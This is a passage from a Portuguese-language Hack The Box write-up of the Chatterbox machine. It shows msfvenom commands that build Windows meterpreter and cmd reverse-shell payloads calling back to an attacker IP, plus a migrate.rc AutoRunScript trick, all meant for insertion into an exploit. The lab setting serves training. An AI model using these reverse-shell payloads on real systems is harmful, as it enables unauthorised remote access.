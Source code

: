 Verificamos como funciona e vemos que devemos alterar o payload `msfvenom` que vai dentro dele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_search2.png)

Então vamos lá

# Shell de User - 1º Modo (Meterpreter)

O primeiro modo vai ser conseguir um shell de meterpreter na máquina. O problema que tivemos aqui quando realizamos o ataque é que a sessão do meterpreter morria assim que era conectada. Para resolver esse problema utilizamos o `AutoRunScript` com o `migrate`, pra assim que estabelecer a conexão ele migrar para outro processo, fazendo com que eu não perca a conexão

Show, chega de papo, vamos executar. Primeiro devemos montar nosso payload

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.10.16.117 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_met.png)

Colocamos dentro do exploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_met1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_met2.png)

Criamos nosso "script" para migrar

migrate.rc
*run post/windows/manage/migrate*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_met3.png)

Ligamos nosso handler e setamos o `AutoRunScript` pra rodar esse `migrate.rc`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_met4.png)

Executamos o exploit e recebemos a conexão

Pô, não deu certo, era pra ter dado. Mas vamos prosseguir pra não perder tempo. O que deve ficar gravado aqui é a ideia do `AutoRunScript`, daqui uns tempos volto aqui e tento novamente

# Shell de User - 2º Modo (Shell Cmd)

Bom, agora vamos testar com um shell cmd simples

`msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.16.117 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`
